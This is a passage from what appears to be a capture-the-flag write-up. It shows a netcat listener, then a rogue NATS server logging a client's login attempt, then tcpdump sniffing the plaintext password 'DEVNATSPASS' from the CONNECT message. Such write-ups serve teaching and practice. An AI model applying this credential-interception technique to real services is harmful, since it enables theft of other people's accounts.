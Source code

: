 ```sh

 nc -lvnk 4222      
Listening on 0.0.0.0 4222
Connection received on 10.129.241.222 56709
Listening on 0.0.0.0 4222
```

Running a nats server locally with a nix package or docker, we can add verbosity to the output and see connections happening here as well as the user account, but the password is redacted.

```log
[362465] 2025/07/20 08:26:45.432876 [TRC] 10.129.241.222:62256 - cid:5 - <<- [CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"[REDACTED]","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":true,"no_responders":true}]
[362465] 2025/07/20 08:26:45.433179 [ERR] 10.129.241.222:62256 - cid:5 - authentication error
[362465] 2025/07/20 08:26:45.433196 [TRC] 10.129.241.222:62256 - cid:5 - ->> [-ERR Authorization Violation]
[362465] 2025/07/20 08:26:45.433207 [DBG] 10.129.241.222:62256 - cid:5 - Client connection closed: Authentication Failure
[362465] 2025/07/20 08:26:45.433359 [TRC] ACCOUNT - <<- [PUB $SYS.ACCOUNT.CLIENT.AUTH.ERR  763]
[362465] 2025/07/20 08:26:45.433368 [TRC] ACCOUNT - <<- MSG_PAYLOAD: ["{\"type\":\"io.nats.server.advisory.v1.client_disconnect\",\"id\":\"P3zPtMQPjAqowGVSI62BXH\",\"timestamp\":\"2025-07-20T15:26:45.433160891Z\",\"server\":{\"name\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"host\":\"0.0.0.0\",\"id\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"ver\":\"2.11.4\",\"jetstream\":false,\"flags\":0,\"seq\":8,\"time\":\"2025-07-20T15:26:45.433263908Z\"},\"client\":{\"start\":\"2025-07-20T08:26:45.331703956-07:00\",\"host\":\"10.129.241.222\",\"id\":5,\"acc\":\"$G\",\"user\":\"Dev_Account_A\",\"name\":\"NATS CLI Version 0.2.2\",\"lang\":\"go\",\"ver\":\"1.41.1\",\"rtt\":101251739,\"stop\":\"2025-07-20T15:26:45.433160891Z\",\"name_tag\":\"$G\",\"kind\":\"Client\",\"client_type\":\"nats\"},\"sent\":{\"msgs\":0,\"bytes\":0},\"received\":{\"msgs\":0,\"bytes\":0},\"reason\":\"Authentication Failure\"}"]
[362465] 2025/07/20 08:26:45.433424 [TRC] SYSTEM - <<- [PUB $SYS.SERVER.NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3.CLIENT.AUTH.ERR  763]
[362465] 2025/07/20 08:26:45.433434 [TRC] SYSTEM - <<- MSG_PAYLOAD: ["{\"type\":\"io.nats.server.advisory.v1.client_disconnect\",\"id\":\"P3zPtMQPjAqowGVSI62BZG\",\"timestamp\":\"2025-07-20T15:26:45.433235692Z\",\"server\":{\"name\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"host\":\"0.0.0.0\",\"id\":\"NBUS7VCB55FHCDV5BT756CA26VA5N6SI6XW3T4QXHQMZN4PEL47KD2C3\",\"ver\":\"2.11.4\",\"jetstream\":false,\"flags\":0,\"seq\":9,\"time\":\"2025-07-20T15:26:45.433415395Z\"},\"client\":{\"start\":\"2025-07-20T08:26:45.331703956-07:00\",\"host\":\"10.129.241.222\",\"id\":5,\"acc\":\"$G\",\"user\":\"Dev_Account_A\",\"name\":\"NATS CLI Version 0.2.2\",\"lang\":\"go\",\"ver\":\"1.41.1\",\"rtt\":101251739,\"stop\":\"2025-07-20T15:26:45.433235692Z\",\"name_tag\":\"$G\",\"kind\":\"Client\",\"client_type\":\"nats\"},\"sent\":{\"msgs\":0,\"bytes\":0},\"received\":{\"msgs\":0,\"bytes\":0},\"reason\":\"Authentication Failure\"}"]
```

Maybe we can grab the password in flight before it gets to the service with tcpdump or wireshark...

```sh
> sudo tcpdump -i tun0 -A -s 0 port 42222
...
.Q...~js..DD..P.......CONNECT {"verbose":false,"pedantic":false,"user":"Dev_Account_A","pass":"DEVNATSPASS","tls_required":false,"name":"NATS CLI Version 0.2.2","lang":"go","version":"1.41.1","protocol":1,"echo":true,"headers":true,"no_responders":true}
...
```
